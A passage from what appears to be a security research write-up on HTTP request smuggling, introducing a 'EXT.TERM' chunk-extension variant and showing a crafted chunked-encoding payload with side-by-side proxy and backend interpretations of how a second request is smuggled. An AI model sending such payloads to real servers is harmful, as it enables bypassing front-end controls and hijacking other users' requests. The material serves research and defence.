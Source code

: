 
#### EXT.TERM
The EXT.TERM variant has to my knowledge never been documented before, although it follows quite naturally from the TERM.EXT technique. Let us have a look at a payload equivalent to the TERM.EXT payload above.

<div style="display: flex; gap: 10px;">
<div style="flex: 1;">

<pre><code>GET /one HTTP/1.1<span class="http-line-break">\r\n</span><span class="http-highlight-text-req"><b>request #1</b></span>
Host: localhost<span class="http-line-break">\r\n</span>
Transfer-Encoding: chunked<span class="http-line-break">\r\n</span>
<span class="http-line-break">\r\n</span>
<span class="http-highlight http-highlight-one"><span class="http-highlight-head http-highlight-one-compl">45;<span class="http-line-break">\n</span><span class="http-highlight-text">chunk header</span>
AAAAAAAAAAAAA... <i>[69]</i><span class="http-line-break">\r\n</span>
</span>0<span class="http-line-break">\r\n</span><span class="http-highlight-text">chunk body</span>
<span class="http-line-break">\r\n</span>
GET /two HTTP/1.1<span class="http-line-break">\r\n</span>
Host: localhost<span class="http-line-break">\r\n</span>
Transfer-Encoding: chunked<span class="http-line-break">\r\n</span>
<span class="http-line-break">\r\n</span>
</span><span class="http-highlight http-highlight-two"><span class="http-highlight-head http-highlight-two-compl">0<span class="http-line-break">\r\n</span><span class="http-highlight-text">last chunk</span>
</span><span class="http-line-break">\r\n</span>
</span></code></pre>

<p style="text-align: center; font-weight: bold;">EXT interpretation (proxy)</p>
</div>

<div style="flex: 1;">

<pre><code>GET /one HTTP/1.1<span class="http-line-break">\r\n</span><span class="http-highlight-text-req"><b>request #1</b></span>
Host: localhost<span class="http-line-break">\r\n</span>
Transfer-Encoding: chunked<span class="http-line-break">\r\n</span>
<span class="http-line-break">\r\n</span>
<span class="http-highlight http-highlight-one"><span class="http-highlight-head http-highlight-one-compl">45;<span class="http-line-break">\n</span><span class="http-highlight-text">chunk header</span>
</span>AAAAAAAAAAAAA... <i>[69]</i><span class="http-line-break">\r\n</span><span class="http-highlight-text">chunk body</span>
</span><span class="http-highlight http-highlight-two"><span class="http-highlight-head http-highlight-two-compl">0<span class="http-line-break">\r\n</span><span class="http-highlight-text">last chunk</span>
</span><span class="http-line-break">\r\n</span>
</span>GET /two HTTP/1.1<span class="http-line-break">\r\n</span><span class="http-highlight-text-req"><b>request #2</b></span>
Host: localhost<span class="http-line-break">\r\n</span>
Transfer-Encoding: chunked<span class="http-line-break">\r\n</span>
<span class="http-line-break">\r\n</span>
<span class="http-highlight http-highlight-one"><span class="http-highlight-head http-highlight-one-compl">0<span class="http-line-break">\r\n</span><span class="http-highlight-text">last chunk</span>
</span><span class="http-line-break">\r\n</span>
</span></code></pre>
